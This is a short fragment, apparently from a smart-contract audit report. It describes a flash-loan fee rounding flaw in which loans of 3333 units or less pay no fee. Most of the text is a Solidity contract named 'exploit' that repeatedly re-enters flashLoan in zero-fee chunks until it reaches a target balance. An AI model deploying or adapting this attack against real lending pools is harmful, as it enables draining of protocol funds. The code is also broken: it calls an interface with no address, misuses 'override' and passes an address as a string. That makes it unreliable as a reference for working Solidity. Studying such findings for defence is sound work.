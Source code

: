 ```
// return 1
```

means that for any number that is/or under 3333 we pay no fees

```
interface IActivePool {

function flashLoan(
        address receiver,
        address token,
        uint256 amount,
        bytes calldata data
    ) external override returns (bool);

}

interface IERC20 {
   function balanceOf(address) external returns(uint256);
}

contract exploit {
   // the desired amount to gain from the accumulated flash loans
    uint256 reachedAmount;
    function setDesiredAmount(uint256 a) external {
      reachedAmount = a;
     }

    function onFlashLoan(
        address initiator,
        address token,
        uint256 amount,
        uint256 fee,
        bytes calldata data
    ) external returns (bytes32 s) {
      
    if(IERC20(token).balanceOf(address(this)) < reachedAmount) {

         // reenter the call to get your amount
IActivePool().flashLoan(address(this),"0x17144556fd3424edc8fc8a4c940b2d04936d17eb",3333,"0x00");
       }
// once gained you do the actions you want to !
   
//gain approval for collateral.transferFrom and returns flashSuccessValue
IERC20(token).approve(msg.sender,type(uint256).max);
 s = 0x439148f0bbc682ca079e46d6e2c2f0c1e3b820f1a291b069d8882abf8cf18dd9;

// the loan will be paid 3333 for eah call and each call will give back 0 fees !
   }
}
```
